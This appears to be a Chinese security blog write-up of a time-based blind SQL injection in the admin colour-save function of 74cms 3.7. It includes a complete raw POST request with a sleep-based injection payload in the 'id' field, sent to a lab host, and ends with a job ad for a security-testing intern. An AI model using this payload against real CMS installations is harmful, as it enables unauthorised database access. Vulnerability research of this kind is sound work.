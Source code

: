 这个也没有做过滤，不过这个方法是在图1中选择保存之后才会生效

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JX7xaGghT4jlVgnNcbQFYogCT9MhEx1hckkqFDkkYgODm4iblVqFU4esYbRZfhQE02f3qpWuEM1zkg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JX7xaGghT4jlVgnNcbQFYoghUbqfV1ghL4PmsvzlAnUmLV4XlFEPWEFXBwnIHhKdGfTfGjmHic5rPQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

抓包得到post数据后发现他还有一个token，经过简单的绕过测试之后发现并没用，说明这里虽然存在sql注入但是sqlmap用不了，也懒得写爬虫去爬hiddentoken的值去配合注入，手动证明一下就行了。

正常返回，发下没有任何可以回显的地方，所以使用延迟注入

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JX7xaGghT4jlVgnNcbQFYoghUbqfV1ghL4PmsvzlAnUmLV4XlFEPWEFXBwnIHhKdGfTfGjmHic5rPQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这是我的对应该cms的数据库名

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

数据库名字长度为7  
所以if(length(database())>5,sleep(10),1)一旦出现延迟就说明可以注入

```
`Pyload：``POST /74cms1/3.7/upload/admin/admin_category.php?act=edit_color_save HTTP/1.1``Host: 169.254.136.163``User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0``Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8``Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2``Accept-Encoding: gzip, deflate``Content-Type: application/x-www-form-urlencoded``Content-Length: 100``Origin: http://169.254.136.163``Connection: close``Referer: http://169.254.136.163/74cms1/3.7/upload/admin/admin_category.php?act=edit_color&id=1``Cookie: PHPSESSID=td4j0p7kgbbnqgfig4isfmj573``Upgrade-Insecure-Requests: 1``hiddentoken=31562cd7&val=%23bc123a&id=1+and+if(length(database())>5,sleep(10),1)&addsave=%B1%A3%B4%E6`
```

  

  

  

  

_**招聘启事**_

安恒雷神众测SRC运营（实习生）  
————————  
【职责描述】  
1.  负责SRC的微博、微信公众号等线上新媒体的运营工作，保持用户活跃度，提高站点访问量；  
2.  负责白帽子提交漏洞的漏洞审核、Rank评级、漏洞修复处理等相关沟通工作，促进审核人员与白帽子之间友好协作沟通；  
3.  参与策划、组织和落实针对白帽子的线下活动，如沙龙、发布会、技术交流论坛等；  
4.  积极参与雷神众测的品牌推广工作，协助技术人员输出优质的技术文章；  
5.  积极参与公司媒体、行业内相关媒体及其他市场资源的工作沟通工作。  
  
【任职要求】   
 1.  责任心强，性格活泼，具备良好的人际交往能力；  
 2.  对网络安全感兴趣，对行业有基本了解；  
 3.  良好的文案写作能力和活动组织协调能力。

  
